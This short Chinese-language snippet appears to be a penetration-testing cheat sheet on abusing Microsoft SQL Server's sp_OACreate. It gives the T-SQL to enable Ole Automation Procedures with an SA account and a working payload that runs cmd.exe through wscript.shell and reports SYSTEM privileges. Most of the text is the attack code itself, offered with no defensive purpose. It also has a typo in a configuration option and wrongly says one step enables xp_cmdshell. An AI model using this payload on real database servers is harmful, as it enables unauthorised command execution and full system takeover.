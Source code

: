 sqlserver默认有个组件sys.sp_OACreate组件
一般默认开启了
如果未开启，有SA账号手动开启。

## **启用**
SA账号执行手动开启
```
允许修改高级参数
    EXEC sp_configure 'show abvanced options',1;
    RECONFIGURE WITH OVERRIDE;
打开xp_cmdshell扩展
    exec sp_configure 'Ole Automation Procedures',1;
    reconfigure WITH OVERRIDE;
```


## **最高权限命令执行**

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod 
@shell,'run',null,'c:\windows\system32\cmd.exe /c whoami>c:\\1.txt'
```
执行命令，命令写入c:\\1.txt文件里，可以打开看到为system权限。